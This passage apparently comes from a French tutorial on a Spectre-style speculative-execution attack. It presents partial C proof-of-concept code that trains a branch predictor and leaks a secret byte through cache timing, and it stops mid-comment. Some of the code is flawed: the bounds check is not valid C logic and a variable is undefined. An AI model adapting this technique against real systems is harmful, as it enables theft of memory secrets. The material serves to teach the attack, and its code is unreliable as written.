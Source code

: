 Le programme indique donc que le premier octet du secret est un S ! C'est presque gagné pour finir le travail.

## PoC final pour trouver le secret

Le dernier programme est presque complet. Il ne reste plus qu'à boucler un certain nombre de fois pour avoir le secret en entier.

```c
/**
 ** CODE DE LA VICTIME
 **/

/* Buffer maitrisé, des valeurs étant entre 0 et 255 */
int buffer[BUFFER_SIZE] = {0,1,2,3,4,5,6,7,8,9,10,11,12,13,14,15};

/* Une valeur absolument inaccessible avec la seule fonction ci-dessous */
char * secret = "SECRET";

int x;
void my_protected_function(int idx) {
    /*
     * La fonction vérifie que l'index fourni en paramètre est bien dans les limites du tableau
     * de ce programme. Le tableau "buffer" est initialisé/contrôlé par ce programme, donc
     * les valeurs sont maitrisées de telle sorte à ce que 0 <= buffer[idx] <= 255
     */
    if (0 <= idx < buffer_size) {
        x = x ^ paged_buffer[buffer[idx] * PAGE_SIZE];
    }
}

/**
 ** CODE DE L'ATTAQUANT
 **/


/* Initialisation du buffer de 256 pages */
char paged_buffer[256 * PAGE_SIZE];

/* Le programme va entraîner 10 fois le processeur à prendre la branche puis changera d'index */
#define TRAIN 10
uint32_t get_index_access_time(int idx, int value) {
    flush(paged_buffer[value * PAGE_SIZE]); // On supprime la page de tous les niveaux de cache

    /* Un index valide est utilisé pour l'entraînement */
    int valid_idx = 2;
    for(int i = 0; i < TRAIN; i++) {
        my_protected_function(valid_idx);
    }

    /*
     * On accède ensuite à une zone mémoire qui n'est plus autorisée normalement
     * On va utiliser un index soigneusement choisi pour que la zone mémoire qui sera
     * accédée soit le premier octet du secret
     */
    my_protected_function(evil_idx);

    /*
     * La prédiction de branche devrait avoir lu la valeur du premier octet du secret 'S' ou 83 en décimal,
     * puis a dû accéder à l'index du tableau de page, mettant en cache la page à l'index 83.
     * Comme le processeur se rend compte de son erreur, les changements sont annulés, mais la mise
     * en cache existe encore. On va donc pouvoir mesurer les temps d'accès pour trouver cette fameuse
```